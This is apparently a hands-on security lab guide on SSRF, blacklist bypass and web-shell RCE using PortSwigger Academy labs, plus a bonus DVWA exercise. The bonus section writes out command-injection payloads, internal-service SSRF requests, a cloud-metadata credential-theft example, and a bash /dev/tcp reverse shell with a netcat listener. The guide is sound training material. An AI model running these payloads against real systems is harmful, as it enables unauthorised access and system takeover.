



# Web App & API Security — SSRF & RCE (25–30 Minutes + Bonus)

> Lab Type: Web App & API Security  
> Tool: Burp Suite Community  
> Duration: 25–30 Minutes (+30–35 Minutes Bonus)  
> System: Any browser + Burp Suite (Bonus section additionally needs Kali Linux, DVWA on Docker, curl, netcat)

---

## Lab Overview

Server-Side Request Forgery (SSRF) and remote code execution via unrestricted file upload are two of the highest-impact web vulnerabilities you'll encounter — one turns a server into an attacker's proxy into internal infrastructure, the other turns an image upload box into a full shell. In this lab you will work through three PortSwigger Web Security Academy labs covering basic SSRF, SSRF with a weak blacklist filter, and RCE via web shell upload, using nothing but a browser and Burp Suite. A bonus section at the end revisits the original locally-hosted lab — a custom Python SSRF sink plus DVWA's Command Injection module escalated to a full reverse shell — for anyone who wants further hands-on practice beyond the three core labs.

---

## Learning Objectives

By the end of this lab you will be able to:

- Identify and exploit a server-side URL-fetch feature to reach an internal-only admin interface
- Bypass a weak blacklist-based SSRF filter using IP obfuscation and double-URL encoding
- Exploit an unrestricted file upload to deploy a PHP web shell and read arbitrary server-side files
- *(Bonus)* Explain why cloud metadata endpoints turn SSRF into credential theft in real deployments
- *(Bonus)* Escalate a basic command injection into a fully interactive reverse shell

---

## Setting Up Burp Suite

### Objective

Configure Burp Suite to intercept traffic to the PortSwigger Academy lab instances. Unlike the bonus section, no local VM or target app setup is required — PortSwigger provisions a unique, isolated instance of the vulnerable app automatically when you open each lab link.

### Configure Your Browser to Proxy Through Burp

**Option A — Burp's embedded browser (recommended, zero config):**

Open Burp Suite → **Proxy → Intercept** → click **Open Browser**. This launches a pre-configured Chromium instance that routes through Burp automatically — no proxy setup needed.


**Option B — Your own browser via FoxyProxy:**

If you'd rather use your everyday browser:

1. Install the **FoxyProxy** extension (Firefox or Chrome).
2. Add a new proxy profile: IP `127.0.0.1`, Port `8080` (Burp's default listener).
3. Enable the FoxyProxy profile before browsing to the lab.
4. In Burp, go to **Proxy → Options** and confirm a listener is active on `127.0.0.1:8080`.
5. Visit `http://burpsuite` in the proxied browser and install Burp's CA certificate if prompted, so HTTPS traffic can be intercepted without warnings.


!!! tip "Burp Repeater does the heavy lifting in this lab"
    All three labs below rely on sending an intercepted request to **Repeater** and modifying a single parameter repeatedly — make sure you're comfortable right-clicking a request in **Proxy → HTTP history** and selecting **Send to Repeater** before starting.

### Discussion Questions

??? question "Why doesn't this lab need a local VM or target app, unlike the bonus section?"

    PortSwigger hosts and provisions a fresh, isolated instance of each vulnerable application in the cloud the moment you open the lab. Burp Suite here is purely the interception/manipulation tool acting on that remote instance — nothing needs to be installed or run locally except Burp itself.

---

## Lab 1: Basic SSRF Against the Local Server

### Objective

Redirect a stock-check feature's server-side fetch to an internal-only admin interface and use it to delete a user.

### Navigate to the Lab

From the Academy homepage ([portswigger.net/web-security](https://portswigger.net/web-security)): **All topics** → **SSRF** → scroll to **"Basic SSRF against the local server"** in the labs list. Direct link: [Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost).



!!! tip "No extra setup beyond Burp"
    Click **Access the lab**, browse to a product, and click "Check stock" — that request is your starting point for Repeater.

Full exploitation steps are provided on PortSwigger's own lab page (linked above).

### Discussion Questions

??? question "Why is an internal admin interface reachable at all from the server's own network position?"

    Internal-only interfaces are typically not exposed to the public internet, but they're still reachable from the server itself (or from other machines inside the same network perimeter). SSRF abuses the fact that the vulnerable server is trusted to make outbound requests on its own network — the attacker never touches the internal interface directly, they just get the server to do it for them.

---

## Lab 2: SSRF with a Blacklist-Based Input Filter

### Objective

Bypass a weak blacklist-based anti-SSRF filter to reach the same admin interface as Lab 1.

### Navigate to the Lab

From the Academy homepage ([portswigger.net/web-security](https://portswigger.net/web-security)): **All topics** → **SSRF** → scroll to **"SSRF with blacklist-based input filter"** in the labs list (same topic page as Lab 1, further down). Direct link: [SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter).



!!! tip "Two separate filter bypasses needed"
    This lab blocks both `127.0.0.1` and the literal string `admin` — you'll need an IP obfuscation trick for the first block and double-URL encoding for the second. Both are covered in PortSwigger's own solution steps.

Full exploitation steps are provided on PortSwigger's own lab page (linked above).

### Discussion Questions

??? question "Why is a denylist not a sufficient fix for SSRF?"

    Denylisting specific addresses (like blocking `127.0.0.1` or the string `admin`) is trivially bypassed with alternate IP representations (like `127.1`), URL encoding tricks, redirects, or DNS rebinding. A strict allowlist of destinations the app is actually permitted to fetch is the only reliable fix — this lab demonstrates exactly why.

---

## Lab 3: Remote Code Execution via Web Shell Upload

### Objective

Exploit an unrestricted image upload function to deploy a PHP web shell and exfiltrate a server-side file.

### Navigate to the Lab

From the Academy homepage ([portswigger.net/web-security](https://portswigger.net/web-security)): **All topics** → **File upload vulnerabilities** → scroll to **"Remote code execution via web shell upload"** in the labs list. Direct link: [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload).

Test credentials are provided directly on the lab page: `wiener:peter`.



!!! tip "Set Burp's HTTP history filter to show images"
    Filtering **Proxy → HTTP history** by MIME type (Images) makes it much easier to spot the request that fetches your uploaded avatar — that request's path is what you'll repoint at your uploaded PHP file.

Full exploitation steps are provided on PortSwigger's own lab page (linked above).

### Discussion Questions

??? question "Why does uploading a .php file lead to code execution here, but wouldn't on every server?"

    The vulnerability requires two things together: no validation on the uploaded file's type/extension, and the upload directory being configured to actually execute PHP files rather than just serve them as static content. A properly hardened upload handler would either reject non-image extensions outright or store uploads in a location the web server won't execute scripts from.

---

## Try It Yourself: Custom SSRF App & DVWA Command Injection (Bonus, Local Lab)

The following is a self-contained, locally-hosted bonus lab covering the same two vulnerability classes using a custom Python SSRF sink and DVWA's Command Injection module, escalated to a full reverse shell — good further practice once the three PortSwigger labs above are done.

### Environment Setup

Create the vulnerable "URL preview" app — a small stdlib-only Python script, no installs required:

```bash
mkdir -p ~/ssrf-lab && cd ~/ssrf-lab
nano ssrf_vuln_app.py
```

The script exposes `GET /fetch?url=<url>` and calls `urllib.request.urlopen()` on whatever URL it's given, with no validation or allowlisting — that's the vulnerability.

```bash
python3 ssrf_vuln_app.py
```


!!! warning
    `serve_forever()` blocks the terminal on purpose — the prompt not returning after you run the script is expected, not a hang. Open a **second terminal** to run the verification/test commands instead of waiting on the first one to "finish."

Confirm it's actually listening before assuming it's broken:

```bash
ss -tlnp | grep 8000
```

Stand up the "internal" resource in a separate terminal, bound to loopback so it represents something not meant to be reachable from outside the host:

```bash
mkdir -p ~/internal-svc && cd ~/internal-svc
echo "CONFIDENTIAL: internal-only payroll export link" > internal
python3 -m http.server 5000 --bind 127.0.0.1
```


??? question "Why use a custom stdlib script instead of a purpose-built SSRF training app?"

    Standing up a dedicated vulnerable app (e.g. via Docker) would mean pulling in extra images and dependencies for a single feature that's easy to reproduce directly. A 20-line script using only Python's standard library keeps the lab reproducible on stock Kali with nothing extra installed, while demonstrating the exact same flaw: an unvalidated server-side fetch.

### Demonstrating SSRF

Baseline request, to confirm the fetch feature works normally first:

```bash
curl "http://127.0.0.1:8000/fetch?url=http://example.com"
```


Redirect the same feature at the internal-only resource:

```bash
curl "http://127.0.0.1:8000/fetch?url=http://127.0.0.1:5000/internal"
```

If the response contains the "CONFIDENTIAL" string, the app made the request to the internal service on your behalf — SSRF confirmed.


**Cloud metadata variant (discussion only):** in a real cloud deployment, the same `url=` parameter pointed at `http://169.254.169.254/latest/meta-data/` can leak the instance's IAM credentials — this is what made SSRF a top-severity finding in real-world breaches (e.g. Capital One, 2019). No live cloud endpoint here, so this stays a discussion point rather than an executed step.

??? question "Why does binding the internal service to 127.0.0.1 matter for this demo?"

    It represents a resource that's only supposed to be reachable from the local host itself, not from the outside network. The SSRF app can reach it because they're on the same machine — exactly mirroring how a real internal service (a metadata endpoint, an admin panel, an internal API) is only reachable from inside the network perimeter, and SSRF is what breaks that boundary.

### Command Injection and Reverse Shell Escalation

Start (or resume) the DVWA container:

```bash
sudo docker ps -a
sudo docker start dvwa
sudo docker ps
```

!!! warning
    A container that's been stopped since your last session shows as `Exited` under `docker ps -a`, and the app won't be reachable until you `docker start` it — a browser "Unable to connect" error here is a stopped container, not a broken app. Confirm `STATUS` shows `Up ...` before troubleshooting further.

Log into DVWA at `http://127.0.0.1/` with `admin` / `password`.

!!! warning
    On a fresh or reset container, login can fail until the database exists. If so, visit `http://127.0.0.1/setup.php` and click **Create / Reset Database** first.

Go to **DVWA Security**, set the level to **Low**, then open **Command Injection**.

Submit either payload to confirm unsanitized input reaches the shell:

```
127.0.0.1; whoami
```
or
```
127.0.0.1 | id
```


Before escalating, find the address the container needs to reach back to. DVWA runs on Docker's default bridge network, so `127.0.0.1` from inside the container refers to the container itself, not your Kali host — you need the bridge gateway address instead:

```bash
ip -4 addr show docker0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}'
```

!!! warning
    Using `127.0.0.1` as the callback address here fails silently — the container just connects back to itself, not to your listener. The gateway address (typically `172.17.0.1` on the default bridge) is what actually routes back to the host. If you'd rather avoid this step entirely, re-run the container with `--network host` and use `127.0.0.1` directly instead — either approach works, this lab used the gateway-address route to keep the existing container untouched.

Start the listener on Kali:

```bash
nc -lvnp 4444
```


In the DVWA Command Injection field, submit:

```
127.0.0.1; bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
```

Switch to the netcat terminal — a caught shell drops you straight to a prompt. Confirm interactivity with `whoami` and `id`.


Close out the session cleanly rather than just killing the terminal:

```bash
exit
```

??? question "Why does the payload need the Docker bridge gateway IP instead of 127.0.0.1?"

    The reverse shell payload runs inside the DVWA container's own network namespace, where `127.0.0.1` refers to the container itself. The Kali host — where the netcat listener actually lives — is only reachable from inside a bridged container via the bridge network's gateway address, since that's the container's route back out to the host.

??? question "Why escalate a simple command injection into a full reverse shell at all?"

    A one-off `whoami` proves the vulnerability exists, but a reverse shell demonstrates actual impact — persistent, interactive access to the underlying system, which is what an attacker would realistically pursue. It's the difference between "this is technically injectable" and "this is a full compromise."

---

## Expected Deliverables

| #   | Deliverable                                       | How to Obtain                                              |
| --- | ---------------------------------------------------- | ------------------------------------------------------------ |
| 1   | Lab 1 page screenshot (basic SSRF)                  | PortSwigger lab landing page                                   |
| 2   | Lab 2 page screenshot (SSRF blacklist bypass)       | PortSwigger lab landing page                                   |
| 3   | Lab 3 page screenshot (RCE via web shell upload)    | PortSwigger lab landing page                                   |
| 4   | *(Bonus)* SSRF app + internal service running        | Terminal output, both processes listening                    |
| 5   | *(Bonus)* Baseline fetch + SSRF internal response    | curl output for both requests                                |
| 6   | *(Bonus)* Command injection confirmed                | DVWA Command Injection module, `whoami`/`id` output           |
| 7   | *(Bonus)* Netcat listening + reverse shell caught     | Terminal output, both sides of the connection                |

---

## Learning Outcomes

Having completed this lab, you have:

- Exploited a server-side URL-fetch feature to reach an internal-only admin interface via SSRF
- Bypassed a weak blacklist-based SSRF filter using IP obfuscation and double-URL encoding
- Exploited an unrestricted file upload to deploy a PHP web shell and exfiltrate a server-side file
- *(Bonus)* Demonstrated SSRF against a custom Python sink and understood how the same technique escalates to credential theft against real cloud metadata endpoints
- *(Bonus)* Escalated DVWA command injection into a fully interactive reverse shell, accounting for Docker's bridge networking along the way
